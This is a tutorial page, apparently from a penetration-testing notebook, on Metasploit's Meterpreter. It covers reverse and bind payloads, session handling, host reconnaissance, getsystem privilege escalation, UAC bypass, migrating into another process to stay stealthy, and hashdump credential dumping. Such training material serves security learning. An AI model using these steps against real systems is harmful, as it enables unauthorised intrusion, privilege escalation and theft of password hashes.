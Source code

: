 # Meterpreter

Meterpreter is a very powerful shell which runs on Anroid, BSD, Java, Linux, PHP, Python, and Windows vulnerable applications and services

It provides advanced features to gather information, transfer files between the attacker and victim machines, install backdoors and more

To list all possible Meterpreter payloads in MSFConsole:

```
search meterpreter
```

To choose a payload when attacking a Windows machine:

```
set payload windows/meterpreter/reverse_tcp
```

## Bind and Reverse

Meterpreter can both wait for a connection on the target machine or connect back to the attacker machine

Most used configurations are `bind_tcp` and `reverse_tcp`

* **`bind_tcp`** runs a server process on the target machine that waits for connections from the attacker machine
* **`reverse_tcp`** performs a TCP connection back to the attacker machine which could help evade firewall rules

```
set payload windows/meterpreter/reverse_tcp
set payload linux/x86/meterpreter/reverse_tcp
set payload windows/meterpreter/bind_tcp
set payload java/meterpreter/bind_tcp
```

## Sessions

A single instance of MSFConsole can host multiple Meterpreter sessions which means you can instance multiple shells on your targets and switch between them

To switch from a Meterpreter session to the console

```
background
```

To list currently opened sessions

```
sessions -l
```

To resume a background session

```
sessions -i <id>
```

## Information Gathering

You can perform information gathering on the exploited machine and the network it is attached to

You can retrieve:

* Information about the machine and the OS
* The network configuration in use
* The routing table of the compromised host
* Information about the user running the exploited process

### System Information

To retrieve information about the exploited machine: name, OS, architecture, system language and the Meterpreter version running:

```
sysinfo
```

![](<../../../../.gitbook/assets/image (28) (1) (1).png>)

### Network configuration

To print the network configuration:

```
ifconfig
```

![](<../../../../.gitbook/assets/image (20) (1) (1) (1) (1) (1) (1).png>)

### Routing information

```
route
```

![](<../../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png>)

### Current User

```
getuid
```

![](<../../../../.gitbook/assets/image (31) (1) (1).png>)

### Privilege Escalation

To just current privileges on Windows

```
run post/windows/gather/win_privs
```

![](<../../../../.gitbook/assets/image (33) (1) (1) (1) (1) (1).png>)

You can use `getsystem` if the owner of the process does not have high privileges on the victim system

```
getsystem
```

![](<../../../../.gitbook/assets/image (11) (1) (1) (1).png>)

### Bypassing UAC

{% hint style="info" %}
In modern Windows operating systems, the User Account Control policy prevent privilege escalation
{% endhint %}

![](<../../../../.gitbook/assets/image (25) (1) (1) (1) (1).png>)

You can bypass that restriction by u sing the `bypassuac` module

```
use exploit/windows/local/bypassuac
```

Then you have to set the session where you want to bypass UAC

```
set session <id>
```

Launch the exploit to get a new Meterpreter session with the UAC policy disabled and use `getsystem`

![](<../../../../.gitbook/assets/image (10) (1) (1).png>)

## Staying Stealthy

Checking pid with `getpid` shows the process you're currently running on

As you can imagine, this process name is not very stealthy and is also suspicious

A user checking their process list may notice something strange on their machine

![](<../../../../.gitbook/assets/image (35) (1) (1) (1) (1).png>)

Therefore, in order to remain stealthy, we can use the `migrate` command to attach our session on a different process

We have to choose a process with the same privileges we currently have

```
ps -U SYSTEM
migrate <PID> //simply using migrate should work as well if you don't want to be specific
```

## Dumping the Password Database

```
use post/windows/gather/hashdump
set session <id>
exploit
```

![](<../../../../.gitbook/assets/image (16) (1) (1) (1) (1).png>)

## Exploring the Victim System

You can navigate the hard drive by using Unix-like shell commands

![](<../../../../.gitbook/assets/image (29) (1) (1) (1) (1) (1) (1).png>)

## Uploading and Downloading

![](<../../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1).png>)

## Running an OS Shell

You can run a standard OS shell

```
shell
```

![](<../../../../.gitbook/assets/image (26) (1) (1) (1) (1).png>)
